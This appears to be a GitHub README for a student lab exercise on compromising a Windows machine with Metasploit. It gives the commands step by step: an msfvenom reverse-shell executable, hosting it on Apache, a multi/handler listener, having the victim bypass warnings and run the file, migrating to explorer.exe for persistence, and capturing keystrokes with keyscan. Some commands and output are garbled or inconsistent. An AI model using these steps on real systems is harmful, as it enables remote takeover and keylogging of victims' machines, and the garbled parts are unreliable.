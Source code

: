 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
PROGRAM:
Find the attackers ip address using ifconfig
![image](https://github.com/user-attachments/assets/fb3b9d6f-d93d-4d9e-925f-2461acd7e49b)
Create a malicious executable file fun.exe using msenom command  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
copy the fun.exe into the apache /var/www/html folder
Start apache server sudo systemctl apache2 start
Check the status of apache2 sudo apache2 status
## output:
ssssssssssssssssssssssssssssssss

Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## output :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/729dc34c-b5b1-4cc6-8770-22d2331caede)
![image](https://github.com/user-attachments/assets/d93cac14-3fc3-444b-8159-bc2e0bc66d3a)
![image](https://github.com/user-attachments/assets/2cfb6dd1-773b-4b42-9cd5-6cbb204a3145)
![image](https://github.com/user-attachments/assets/0810a377-a529-4f89-896e-af33fad9b043)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
